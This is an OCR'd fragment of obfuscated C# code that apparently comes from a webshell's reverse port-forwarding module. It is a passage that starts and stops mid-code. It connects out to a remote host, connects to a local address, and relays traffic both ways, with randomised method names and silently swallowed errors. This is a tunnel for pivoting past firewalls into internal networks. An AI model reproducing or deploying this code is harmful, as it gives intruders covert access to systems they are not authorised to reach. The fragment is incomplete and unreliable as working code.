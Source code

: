 RemoteAddress=Rip;
RemotePort=Rport;
Localaddress=lip;
rtcpClient=new Socket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.Tcp);
ltcpClient=new Socket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.Tcp);
rtcpClient.BeginConnect(mtJ(RemoteAddress,RemotePort),new AsyncCallback(iiGFO),rtcpClient);
}
catch (Exception ex) { }
}
protected void iiGFO(IAsyncResult ar)
{
try
{
session RKXy=new session();
RKXy.ldel=ltcpClient;
RKXy.rdel=rtcpClient;
ltcpClient.BeginConnect(mtJ(Localaddress,LocalPort),new AsyncCallback(VTp),RKXy);
}
catch (Exception ex) { }
}
protected void VTp(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
ltcpClient.EndConnect(ar);
RKXy.rdel.BeginReceive(DPrPL,0,DPrPL.Length,SocketFlags.None,new AsyncCallback(LFYM),RKXy);
RKXy.ldel.BeginReceive(wvZv,0,wvZv.Length,SocketFlags.None,new AsyncCallback(xPS),RKXy);
}
catch (Exception ex) { }
}
private void LFYM(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
int Ret=RKXy.rdel.EndReceive(ar);
if (Ret>0)
ltcpClient.BeginSend(DPrPL,0,Ret,SocketFlags.None,new AsyncCallback(JTcp),RKXy);
else lyTOK();
}
catch (Exception ex) { }
}
private void JTcp(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
RKXy.ldel.EndSend(ar);
RKXy.rdel.BeginReceive(DPrPL,0,DPrPL.Length,SocketFlags.None,new AsyncCallback(this.LFYM),RKXy);
}
catch (Exception ex) { }
}
private void xPS(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
int Ret=RKXy.ldel.EndReceive(ar);
if (Ret>0)
RKXy.rdel.BeginSend(wvZv,0,Ret,SocketFlags.None,new AsyncCallback(IZU),RKXy);
else lyTOK();
}
catch (Exception ex) { }